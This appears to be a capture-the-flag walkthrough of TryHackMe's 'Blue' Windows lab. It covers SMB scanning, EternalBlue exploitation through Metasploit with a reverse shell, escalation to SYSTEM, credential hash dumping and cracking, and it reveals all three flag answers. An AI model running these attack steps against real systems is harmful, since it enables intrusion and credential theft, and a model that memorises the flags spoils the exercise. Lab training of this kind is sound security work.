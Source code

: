 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Blue](https://tryhackme.com/room/blue)
>
> *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> ![](.gitbook/assets/ezgif-2-016707f505.jpg)

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Gain Access

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Escalate

- Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

- My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g. ` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for ***no password***.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

- In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```

<details>
<summary>Reveal Flag1: 🚩</summary>



`flag{access_the_machine}`

![](.gitbook/assets/image-20230316143237356.png)

</details>



```bash
cd C:/Windows/System32/config
cat flag2.txt
```

<details>
<summary>Reveal Flag2: 🚩</summary>



`flag{sam_database_elevated_access}`

![](.gitbook/assets/image-20230316143502259.png)

</details>



```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```

<details>
<summary>Reveal Flag3: 🚩</summary>



`flag{admin_documents_can_be_valuable}`

![](.gitbook/assets/image-20230316143807868.png)

</details>

------

